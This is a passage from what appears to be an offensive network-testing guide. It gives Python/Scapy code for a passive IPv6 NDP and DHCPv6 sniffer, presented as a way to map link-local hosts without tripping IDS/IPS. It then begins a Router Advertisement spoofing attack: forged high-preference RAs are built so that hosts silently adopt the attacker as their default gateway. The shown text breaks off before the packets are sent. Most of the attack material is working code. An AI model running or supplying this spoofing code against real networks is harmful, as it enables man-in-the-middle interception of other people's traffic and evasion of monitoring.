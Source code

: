 ```
}

def handler(pkt):
    eth_src = pkt[Ether].src if Ether in pkt else '?'
    eth_dst = pkt[Ether].dst if Ether in pkt else '?'
    ip6_src = pkt[IPv6].src if IPv6 in pkt else '?'
    ip6_dst = pkt[IPv6].dst if IPv6 in pkt else '?'

    # Identify protocol family first
    for proto,(desc,color) in ICMP6_TYPES.items():
        if proto in pkt:
            break
    else:
        if UDP in pkt and pkt[UDP].dport == 547:  # DHCPv6 server port
            for dhcp_t,name in DHCP6_TYPES.items():
                if dhcp_t in pkt:
                    desc = 'DHCPv6 – '+name; color = Fore.YELLOW; break
            else:
                return  # not a DHCPv6 message we track
        else:
            return  # not interesting

    print(color + f"[{datetime.now().strftime('%H:%M:%S')}] {desc}")
    print(f"  MAC  {eth_src} -> {eth_dst}")
    print(f"  IPv6 {ip6_src} -> {ip6_dst}")
    print('-'*60)

if __name__ == '__main__':
    argp = argparse.ArgumentParser(description='IPv6 NDP & DHCPv6 sniffer')
    argp.add_argument('-i','--interface',required=True,help='Interface to sniff')
    argp.add_argument('-t','--time',type=int,default=0,help='Duration (0 = infinite)')
    a = argp.parse_args()
    sniff(iface=a.interface,prn=handler,timeout=a.time or None,store=0)
```
```
Result: a full **link-local topology** (MAC ⇄ IPv6) in a matter of seconds, without triggering IPS/IDS systems that rely on active scans.

### Router Advertisement (RA) Spoofing

IPv6 hosts rely on **ICMPv6 Router Advertisements** for default-gateway discovery.  If you inject forged RAs **more frequently** than the legitimate router, devices will silently switch to you as the gateway.

```python
#!/usr/bin/env python3
from scapy.all import *
import argparse

p = argparse.ArgumentParser()
p.add_argument('-i','--interface',required=True)
p.add_argument('-m','--mac',required=True,help='Source MAC (will be put in SrcLL option)')
p.add_argument('--llip',required=True,help='Link-local source IP, e.g. fe80::dead:beef')
p.add_argument('-l','--lifetime',type=int,default=1800,help='Router lifetime')
p.add_argument('--interval',type=int,default=5,help='Seconds between RAs')
p.add_argument('--revert',action='store_true',help='Send lifetime=0 to undo attack')
args = p.parse_args()

lifetime = 0 if args.revert else args.lifetime
ra = (IPv6(src=args.llip,dst='ff02::1',hlim=255)/
      ICMPv6ND_RA(routerlifetime=lifetime, prf=0x1)/  # High preference
      ICMPv6NDOptSrcLLAddr(lladdr=args.mac))

```